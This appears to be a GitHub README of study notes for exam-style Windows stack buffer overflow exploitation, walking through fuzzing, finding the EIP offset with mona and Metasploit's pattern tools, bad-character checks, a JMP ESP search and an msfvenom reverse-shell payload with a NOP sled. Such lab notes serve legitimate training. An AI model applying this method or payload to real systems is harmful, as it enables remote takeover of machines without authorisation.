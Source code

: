 Setup:

Start Immunity Debugger as admin
File > Open
	Select the file you want to test

Make an external Connection to it for testing

Also, configure mona in Immunity Debugger:
	!mona config -set workingfolder c:\mona\%p


Step 1: Spiking
	This is the act of finding a vulnerable command. It is the same as fuzzing, but run against every command on the system

Step 2: Fuzzing
	This is the act of finding the amount of characters you can send before crashing the application

	Set the IP and port in the fuzzing script and then run it.
	This will begin sending increasingly long string s of A's at the target until it crashes. Make note of what value the application crashes at

Step 3: Crashing and Controlling the EIP
	Script exploit.py

	Use metasploit to generate a cyclic pattern 400 bytes longer than whatever you crashed at
		/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>

	Copy the patern and place it in the paylaod variable

	Run exploit.py

	When the server crashes open immunity and paste this command in 
		!mona findmsp -distance <length>

	Grab the offset of EIP

	Update the exploit script and set the offset variable to this value

	Empty the payload and set retn to BBBB

	Run exploit.py again and this time the EIP should be full og 42424242 (representing 4 B's)




Step 3: Finding Bad Characters
	Use the following to generate a byte array in mona:
		!mona bytearray -b "\x00\x2e\xa0\x07"
			It will output to C:\mona\oscp\bytearry.bin

	Now we need a string that is the same as this mona one. 

	Run badChars.py to do this

	Update the payload in exploit.py with the output of this script. Then run exploit.py again
		Take note of the address in the ESP now
			!mona compare -f C:\mona\oscp\bytearray.bin -a 018DFA30

	A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

	Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

	The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

	Repeat this process until the final command results in "unmodified"



Step 4: Finding a Jump Point
	
	Update the following command with all the bas characters and then run it
		!mona jmp -r esp -cpb <badchars>
			(RESULTS ARE DISPLAYED IN LOG DATA WINDOW)

	Choose an address and put it in retn in exploit.py. Since this system is little endian, you must supply it backwards (For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.)

Step 5: Generate Payload
	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "<BAD_CHARS>" -f c

	Use this command to generate your payload
	Copy the outputed code into your paylaod variable in exploit.py


Step 6: Prepend NOPS
	padding = "\x90" * 16

		This is needed since an ecoder was used to generate the payload. The payload will need space to unpack. 


Now run the exploit and you should be all good. (Note, you wont get shell till you click into immunity again. Finally, to ensure it worked, start the exe outside immunity and see if you can get a shell)
